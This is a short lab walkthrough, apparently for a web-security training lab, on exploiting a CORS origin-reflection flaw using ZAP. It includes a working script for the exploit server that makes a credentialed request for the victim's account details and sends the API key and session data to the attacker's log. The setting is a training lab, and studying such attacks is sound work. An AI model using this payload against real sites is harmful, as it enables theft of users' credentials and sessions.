 # Lab: CORS vulnerability with basic origin reflection

In ZAP's browser, navigate to the lab and log in as `wiener:peter`. On `/my-account` page you should see `Your API Key is: YOUR-API-KEY`. Under __History__ tab in ZAP, find `/accountDetails` request and check its response body:

```json
{
  "username": "wiener",
  "email": "",
  "apikey": "YOUR-API-KEY",
  "sessions": [
    "YOUR-SESSION-ID"
  ]
}
```

This suggests that site may support CORS. Right-click this request and select "Open in Requester Tab". Add the following header to the request: `Origin: https://example.com` and click Send. Notice that in the response header `Access-Control-Allow-Origin` the origin is reflected. 

Go to exploit server and paste the following script in "Body" section:

> NOTE: The detailed explanation of this script can be find in the [original](README.md) write-up

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Click "Store" and then "Deliver exploit to victim" to solve the lab.
